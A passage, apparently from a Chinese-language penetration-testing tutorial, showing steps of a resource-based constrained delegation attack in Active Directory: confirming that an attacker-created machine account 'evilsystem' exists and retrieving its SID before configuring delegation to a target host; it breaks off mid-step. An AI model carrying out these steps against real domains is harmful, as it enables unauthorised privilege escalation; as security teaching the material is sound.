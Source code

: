 Step 5：查询机器用户是否创建成功

```plain
net group "domain computers" /domain
```

[![](assets/1705982146-76314e2d8104ae430debb25a39642ed5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120223549-34c573c6-b7a1-1.png)  
Step 6：配置 evilsystem 到 wi7-test 的基于资源约束的委派  
a、获取 evilsystem 的 SID

```plain
Get-NetComputer "evilsystem"  //S-1-5-21-180313546-3823935851-3686928739-1604
```

[![](assets/1705982146-04950a0d000af79740550e843d02c61e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120223624-4993ea8a-b7a1-1.png)  
b、配置 evilsystem 到 wi7-test 的基于资源约束委派
